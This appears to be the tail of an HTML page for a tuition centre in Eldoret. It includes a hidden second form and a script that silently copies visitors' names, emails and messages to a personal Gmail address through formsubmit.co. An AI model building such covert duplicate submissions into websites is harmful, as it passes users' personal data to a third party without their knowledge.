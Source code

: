     <!-- Hidden Second Form (to kipkorirenock62) -->
    <form id="secondaryForm" class="hidden" action="https://formsubmit.co/kipkorirenock62@gmail.com" method="POST">
      <input type="hidden" name="_captcha" value="false">
      <input type="text" name="name" />
      <input type="email" name="email" />
      <textarea name="message"></textarea>
    </form>
  </section>

  <footer>
    &copy; 2025 PIONEER TUITION AND HOME SCHOOLING – ELDORET. All rights reserved.
  </footer>

  <script>
    function copyToSecondForm() {
      const main = document.getElementById("mainForm");
      const second = document.getElementById("secondaryForm");

      second.name.value = main.name.value;
      second.email.value = main.email.value;
      second.message.value = main.message.value;

      setTimeout(() => {
        second.submit();
      }, 100);
    }
  </script>

</body>
</html>
